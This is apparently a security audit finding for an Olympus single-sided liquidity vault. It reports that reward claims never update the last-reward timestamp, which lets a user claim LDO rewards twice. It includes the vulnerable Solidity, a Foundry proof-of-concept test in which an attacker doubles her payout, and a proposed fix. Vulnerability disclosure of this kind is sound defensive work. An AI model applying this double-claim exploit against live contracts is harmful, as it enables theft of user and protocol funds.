 CRYP70

high

# Last claimed timestamp for internal rewards is not updated resulting in the theft of LDO tokens

## Summary
The single sided liquidity vault allows for users to deposit wstETH for which they will earn internal and external reward tokens (LDO as internal) where the internal staking reward tokens operate on a rewarding rate of `rewardsPerSecond_`. When users have enough reward tokens, they have the option to withdraw their rewards (both internal and external) from the vault however, this implementation is flawed because the time difference between each call of `claimRewards()` is not considered. 

## Vulnerability Detail
The code for `_claimRewardsForToken(uint256)` and `internalRewardsForToken(uint256,address)` is reflected by the following:


```solidity
    function _claimInternalRewards(uint256 id_) internal {
        address rewardToken = internalRewardTokens[id_].token;
        uint256 reward = internalRewardsForToken(id_, msg.sender);
        uint256 fee = (reward * FEE) / PRECISION;

        userRewardDebts[msg.sender][rewardToken] += reward;
        accumulatedFees[rewardToken] += fee;

        if (reward > 0) ERC20(rewardToken).safeTransfer(msg.sender, reward - fee);

        emit RewardsClaimed(msg.sender, rewardToken, reward - fee);
    }
```

```solidity
    function internalRewardsForToken(uint256 id_, address user_) public view returns (uint256) {
        InternalRewardToken memory rewardToken = internalRewardTokens[id_];
        uint256 lastRewardTime = rewardToken.lastRewardTime;
        uint256 accumulatedRewardsPerShare = rewardToken.accumulatedRewardsPerShare;

        if (block.timestamp > lastRewardTime && totalLP != 0) {
            uint256 timeDiff = block.timestamp - lastRewardTime;
            uint256 totalRewards = timeDiff * rewardToken.rewardsPerSecond;

            // This correctly uses 1e18 because the LP tokens of all major DEXs have 18 decimals
            accumulatedRewardsPerShare += (totalRewards * 1e18) / totalLP;
        }

        // This correctly uses 1e18 because the LP tokens of all major DEXs have 18 decimals
        uint256 totalAccumulatedRewards = (lpPositions[user_] * accumulatedRewardsPerShare) -
            userRewardDebts[user_][rewardToken.token];

        return (cachedUserRewards[user_][rewardToken.token] + totalAccumulatedRewards) / 1e18;
    }
```

As it can be seen in `internalRewardsForToken(uint256,address)` reward tokens are calculated by considering the time difference of when the last rewards were claimed and the current timestamp. The root of the issue lies in `_claimInternalRewards(uint256)` as this function does not update the timestamp for which rewards were last collected. Because the timestamp for the last time rewards were collected is not updated, when the user attempts to collect rewards again immediately after, this will result in `internalRewardsForToken(uint256, address)` considering the first time rewards state was updated (performed in `deposit()`) instead of the previous time rewards were collected resulting in double rewards.


## Impact
A malicious user could exploit this by waiting a substantial amount of time, performing a collection of rewards then immediately collecting rewards again to double an already large amount of tokens effectively resulting in theft of LDO tokens. The proof of concept below outlines this scenario:

*Proof of Concept*
```javascript
    function testDoubleClaim() public {
	    // Note to the reader:
	    // - LDO rewards per second was changed to something more realistic - 0.003 ether p/second
	    // - This test function uses the same setup function as WstethLiquidityVaultTest. 

        // Setup scenario
        SingleSidedLiquidityVault.InternalRewardToken[] memory internalRewards = liquidityVault.getInternalRewardTokens();
        ERC20 lidoRewards = ERC20(address(internalRewards[0].token)); // LIDO DAO Governance Token


        // Start exploit scenario, assert thateve starts on zero rewards
        assertEq(lidoRewards.balanceOf(address(eve))/1e18, 0);


        // Eve sees this as a good opportunity and stakes the same amount also
        vm.startPrank(address(eve));
        wsteth.approve(address(liquidityVault), 1 ether);
        liquidityVault.deposit(1 ether, 100);

        vm.stopPrank();


        // Let staking move forward and grant users some rewards
        vm.warp(block.timestamp + 2 days); // Stake for two days


        vm.startPrank(address(eve));
        // Eve performs a double claim exploit and succeeds
        liquidityVault.claimRewards();

        // Assert rewards were claimed - this is okay.
        assertEq(lidoRewards.balanceOf(address(eve))/1e18, 518); 

        // Eve claims again to exploit the issue
        liquidityVault.claimRewards();
        
        // Assert that her rewards have increased by double even though no time has passed
        assertEq(lidoRewards.balanceOf(address(eve))/1e18, 518*2); 
        vm.stopPrank();


        // Assert the attacker's final balance
        assertEq(lidoRewards.balanceOf(address(eve))/1e18, 1036);

    }
```



## Code Snippet
- https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L623-L634

## Tool used
Manual Review

## Recommendation
I recommend refactoring `_claimInternalRewards()` of the `SingleSidedLiquidityVault` contract to reflect the following to update the `lastRewardTime`  timestamp when a user claims:
```solidity
    function _claimInternalRewards(uint256 id_) internal {
        InternalRewardToken memory rewardToken = internalRewardTokens[id_];
        address rewardTokenAddr = rewardToken.token;
        uint256 reward = internalRewardsForToken(id_, msg.sender);
        uint256 fee = (reward * FEE) / PRECISION;

        userRewardDebts[msg.sender][rewardTokenAddr] += reward;
        accumulatedFees[rewardTokenAddr] += fee;

        if (reward > 0) {
            // Update reward token last claimed timestamp
	        rewardToken.lastRewardTime = block.timestamp;
	        internalRewardTokens[id_] = rewardToken;
            ERC20(rewardTokenAddr).safeTransfer(msg.sender, reward - fee);
        }

        emit RewardsClaimed(msg.sender, rewardTokenAddr, reward - fee);
    }
```

This will record the last time a user claimed their rewards and restart the timer to take the time difference from the previously claimed timestamp. 
